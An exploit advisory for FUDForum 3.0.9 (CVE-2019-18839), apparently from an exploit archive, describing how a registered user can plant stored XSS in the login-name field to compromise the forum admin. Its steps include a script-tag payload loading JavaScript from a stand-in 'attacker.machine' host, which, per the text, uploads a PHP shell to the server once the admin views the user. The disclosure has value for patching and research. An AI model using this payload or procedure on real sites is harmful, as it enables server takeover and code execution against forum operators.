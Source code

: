 # FUDForum 3.0.9 - Stored XSS / Remote Code Execution [via username]

- Date                  : 11/8/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/files/FUDforum_3.0.9.zip/download
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/fR8hVK1paks
- CVE                   : CVE-2019-18839

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the "nlogin" parameter. This may result in remote code execution. An attacker can use a user account to fully compromise the system using a POST request. When the admin visits the user information the payload will execute. This will allow for PHP files to be written to the web root, and for code to execute on the remote server.

Notes: 

1. Register an account and log in to the forum.

2. Go to the user control panel. -> Account Settings -> change login

3. Insert javascript payload <script/src="http://attacker.machine/fud.js"></script>

4. When the admin visits the user information the payload will fire, uploading a php shell on the remote system.
